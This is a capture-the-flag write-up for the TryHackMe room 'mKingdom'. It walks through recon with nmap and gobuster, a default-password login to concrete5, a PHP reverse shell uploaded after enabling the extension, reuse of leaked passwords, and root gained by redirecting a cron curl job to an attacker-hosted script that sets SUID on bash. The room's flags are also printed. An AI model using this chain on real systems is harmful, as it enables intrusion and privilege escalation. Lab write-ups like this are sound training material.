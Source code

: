 # Room: mKingdom

## General Info
- **Room link:** [mKingdom](https://tryhackme.com/room/mkingdom)

## Description

Try to root the machine!

## Provided Files / Links
- [x] Target Machine IP (10.10.221.143)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.221.143`

```
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```
We have http on port 85.


- Directories Enumeration

`gobuster dir -u http://10.10.221.143:85 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100`

I found this directory:
`/app                  (Status: 301) [Size: 314] [--> http://10.10.221.143:85/app/]`


## Website

On the /app directory, there is a "JUMP" button.
When reading the script from the HTML: 

```

        function buttonClick() {
            alert("Make yourself confortable and enjoy my place.");
            window.location.href = 'castle';
        }
    
```

Clicking on the button redirects you to http://10.10.221.143:85/app/castle/.

The website is a CMS build with concrete5 (https://www.concretecms.com/).

From what I gathered from the internet, the earlier versions of concrete CMS were using admin as username and weak passwords.
I tried to login with admin and a few passwords and I actually got a hit with `password`. 



## Target machine exploitation

I went to a blank blog page and noticed that I could upload files. I created a php reverse shell and tried to upload it but the php extension is not supported.
I added php in the list of the supported extensions, uploaded the php file and I could access the file straight away.

I had previously started a listener on my machine `nc -lnvp 1337`, and I got a shell.

I am now `wwww-data` user.

### www-data user

When looking around, I didn't find anything interesting with this user.

I downloaded, ran linpeas.sh, and found this specific permission:

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                    
-rwsr-xr-x 1 toad root 47K Mar 10  2016 /bin/cat 
```
The problem is that I cannot seem to locate the user.txt file.

In the linpeas results, I also found a database password:

```
'database' => 'mKingdom',
'password' => 'toadisthebest',
```
I tried to use this password to switch user (`su toad`) and it worked.

### toad user

I was stuck with the user toad for a while and I started reading all the hidden files in the /home/toad directory.

In the .bashrc file, I found a base64 encoded password `aWthVGVOVEFOdEVTCg==` => `ikaTeNTANtES`.

I tried using it on the user mario and it worked.

### mario user

I found the flag location but couldn't seem to open it with cat (normal), nano, vim...

head worked and I got the flag: **thm{030a769febb1b3291da1375234b84283}**.

I then had a really hard time finding root's password.

I went back to the linpeas results and had a look at the curl script that runs every minute:

`curl mkingdom.thm:85/app/castle/application/counter.sh`

What needs to be done now is changes the /etc/hosts and point the IP to my attacker machine. If I create the same app/castle/application structure and create a bash script to get root access, I'll be able to get the last flag.

For the bash script:
```
#!/bin/bash
chmod u+s /bin/bash
``` 

I just need to create a webserver on port 85 on my machine and wait a little bit (less than a minute) and the target machine is going to execute the counter.sh script on my machine.

### root user

The job ran and I was able to get root access. I found the root.txt flag in the root directory: **thm{e8b2f52d88b9930503cc16ef48775df0}**


